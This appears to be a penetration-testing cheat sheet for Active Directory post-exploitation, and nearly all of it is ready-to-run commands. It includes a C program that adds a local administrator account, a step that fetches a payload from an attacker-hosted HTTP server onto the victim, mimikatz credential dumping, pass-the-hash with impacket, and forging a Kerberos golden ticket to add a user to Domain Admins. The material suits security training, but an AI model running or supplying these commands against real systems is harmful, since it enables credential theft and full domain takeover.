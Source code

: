 # Active Directory Post Exploitation

## Active Directory Post Exploitation

### Access Users Remotely

#### Xfreerdp

```
xfreerdp /u:mike /p:P@ssword /d:homeserver.local /v:192.168.56.13 /w:1920 /h:1080 /fonts /smart-sizing
```

### Gathering Info

#### Cmd

```
# Get current user's detail
whoami

# View Groups
whoami /groups

# View all users in the domain
net user
```

### Privilege Escalation

#### Powershell

**View Running Services**

```
 Get-CimInstance -ClassName win32_service | Select Name,State,PathName,StartName | Where-Object {$_.State -like 'Running'}

```

**View Start Mode of Services**

```
Get-CimInstance -ClassName Win32_Service -Filter "Name='<service name>'" | Select-Object StartMode
```

**Check Permissions using ICACLS**

```
icacls "File Name/Path"
```

#### C Program

**Adduser.c**

```
#include<stdio.h>
#include<stdlib.h>

int main()
{

        int i;
        
        i = system("net user peter P@ssword /add");
        i = system("net localgroup administrators peter /add");

        return 0;

}

```

**Compile**

```
x86_64-w64-mingw32-gcc exploit.c -o adduser.exe

```

#### Share the Exe

```
# Attacker Machine
python3 -m http.server

# Victim Machine
iwr -Uri http://10.10.10.10/<file.exe> -OutFile <file.exe>
```

### Stealing Credentials

#### Mimikatz

```
# Start mimikatz
.\mimikatz.exe

# Dump hahses
privilege::debug

sekurlsa::logonpasswords
```

#### Impacket

**Wmiexec**

```
impacket-wmiexec -hashes :<NT Hash> domain/user@<IP>

# Vew powershell history
cd C:\users\jack\appdata\roaming\microsoft\microsoft\windows\powershell\psreadline

```

**PsExec**

```
# Accessing the domain controller
.\PSExec64.exe \\dc01 cmd.exe
```

### Forging Golden Tickets

#### Get krbtgt Hash and Domain SID

```
.\mimikatz.exe

privilege::debug

# Dump Hashes
lsadump::lsa /patch

```

#### Create Golden Ticket

```
.\mimiktaz.exe

kerberos::purge

# Creating Ticket

kerberos::golden /user:<any user> /domain:homeserver.local /sid:<domain sid> /krbtgt:<krbtgt hash> /ticket:homeserver_golden

```

#### Using Golden Ticket

**Powershell**

```
.\mimikatz.exe

kerberos::ptt homeserver_golden

misc::cmd

```

**PsExec**

```
PsExec.exe \\dc01 cmd.exe

# Add a user to domain
net user mike P@ssword /add /domain 

# Add a user to domain group
net group "domain admins" mike /add /domain

```

***

## REFERENCES

* https://www.mankier.com/1/xfreerdp
* https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/icacls
* https://en.wikipedia.org/wiki/Local\_Security\_Authority\_Subsystem\_Service
* https://www.netwrix.com/how\_golden\_ticket\_attack\_works.html
* https://docs.metasploit.com/docs/pentesting/active-directory/kerberos/forge\_ticket.html
* https://www.youtube.com/watch?v=f8jGhLwCa28\&pp=ygUgd2luZG93cyBwZW50ZXN0IGFjdGl2ZSBkaXJlY3Rvcnk%3D
* https://www.hackingarticles.in/understanding-guide-mimikatz/
* https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/golden-ticket
